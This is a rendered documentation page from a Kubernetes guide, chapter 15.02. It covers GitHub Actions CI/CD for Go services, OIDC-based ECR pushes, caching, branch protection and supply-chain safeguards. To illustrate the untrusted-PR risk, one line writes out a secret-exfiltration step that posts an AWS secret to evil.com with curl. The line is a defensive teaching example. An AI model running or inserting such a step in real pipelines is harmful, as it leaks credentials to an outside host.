

repository: abd-ulbasit/bookstore-kubernetes-guide · page: 15-day-to-day-production-ops/02-application-cicd-pipelines/index.html · generator: mkdocs

# 15.02 — Application CI/CD pipelines

> The application-side CI/CD pipeline for the Bookstore Platform — GitHub
> Actions for the Go services (catalog, orders, payments-worker). Stages
> in real order with real action names; build caching strategy (Go
> modules + Docker buildx GHA cache); fail-fast; branch protection rules
> and required-vs-optional checks; the **"CI ate my repo" footgun**
> (untrusted-PR-with-secrets) and how the workflows defeat it; GitHub
> Actions **OIDC trust for ECR push** (no static AWS keys, ever);
> branch-environment separation. Walks the reader stage-by-stage through
> [`examples/bookstore-platform/ci/.github-workflows-catalog.yml`](../examples/bookstore-platform/ci/.github-workflows-catalog.yml).
> Deepens Part 07 ch.03 (which was generic, single-runtime, ghcr.io) by
> adding multi-arch, ECR + OIDC, integration test suites, the GitOps PR
> seam (two-repo), and the security-side rules that make a multi-service,
> multi-environment, multi-team CI safe at the platform level.

**Estimated time:** ~30 min read · ~90 min hands-on
**Prerequisites:** [Part 07 ch.03](../07-delivery/03-cicd-pipeline.md):
generic CI you'll now deepen for multi-service ECR · [Part 15
ch.01](./01-pr-to-production-lifecycle.md): loop stages that frame the
pipeline · [Part 14
ch.07](../14-eks-in-production-a-to-z/07-infrastructure-cicd-and-drift.md):
sibling infra CI/CD via OIDC

**You'll know after this:** • author a GitHub Actions workflow with build → test → scan → multi-arch image push to ECR in real stage order · • configure GitHub Actions OIDC trust for ECR push (no static AWS keys, ever) · • design build caching for Go modules + Docker buildx GHA cache to keep CI short · • defeat the "CI ate my repo" footgun (untrusted-PR-with-secrets) with `pull_request_target` discipline · • configure branch protection + required checks that map to environment promotion gates

<!-- tags: app-cicd, ci-cd, supply-chain, gitops, eks -->

## Why this exists

[ch.15.01](01-pr-to-production-lifecycle.md) drew the eight-stage loop;
stages 1–4 (commit, PR, CI, review/merge) and the front half of stage 5
(GitOps PR opened) are the **application CI pipeline**. Part 07 ch.03
already shipped a generic GitHub Actions workflow for the v1 Bookstore —
GHCR push, matrix over four services, the cosign keyless flow. That
chapter's job was teaching the *shape* of the pipeline.

This chapter's job is the production deepening. Three concrete gaps
between the v1 workflow and a real platform CI:

1. **Cloud-specific push paths** — the platform pushes to **ECR**, not
   GHCR, via short-lived OIDC role assumption (no static `AWS_ACCESS_KEY`
   in repository secrets). Part 14 ch.07 set up the same OIDC trust for
   Terraform's `apply`; application CI now consumes it.

2. **Per-service integration test suites** — the v1 services ship no
   tests; the v2 services have real test profiles (catalog reads a DB,
   orders writes a DB and publishes events, payments-worker consumes
   events and calls a payment-provider stub). Each workflow brings up
   the dependencies as GitHub Actions service containers and enforces a
   coverage gate calibrated to the service's risk profile.

3. **The GitOps-PR seam, in detail** — Part 07 ch.03 ended with `kustomize
   edit set image` + `git commit` on the same repo. The platform CI/CD
   pipeline opens a **PR against a separate GitOps repo** (the trust
   direction from ch.15.01); that PR's `body:` carries the cosign
   identity for human reviewers; the dev overlay PR auto-merges, the
   staging/prod overlay PRs require human review.

The chapter also names the **two pipeline-shaped security failures** Part
15 cares about most:

- **The "CI ate my repo" footgun** — an untrusted PR (from a fork or an
  external contributor) running a workflow that has access to secrets. A
  single `echo "$AWS_SECRET" > /tmp/x; curl evil.com -d @/tmp/x` step
  exfiltrates every secret the workflow can see. The workflows in
  [`examples/bookstore-platform/ci/`](../examples/bookstore-platform/ci/)
  prevent it with an environment, a narrow token and no
  `pull_request_target`; this chapter shows how (path filters, the
  `if: github.event_name == 'push'` convenience, the
  `pull_request_target` *non*-pattern).

- **Mutable action versions**: a workflow that uses `@v3` runs whatever that
  tag points at on its next run. This chapter pins every third-party action to
  a commit SHA, with the release in a comment, and explains why under How it
  works.

This is the *Building Platform Services* concern from *Production
Kubernetes* ch.11 made specific to GitHub Actions + ECR + cosign; the
*Continuous Delivery* discipline from ch.15.01 turned into a real,
runnable workflow file.
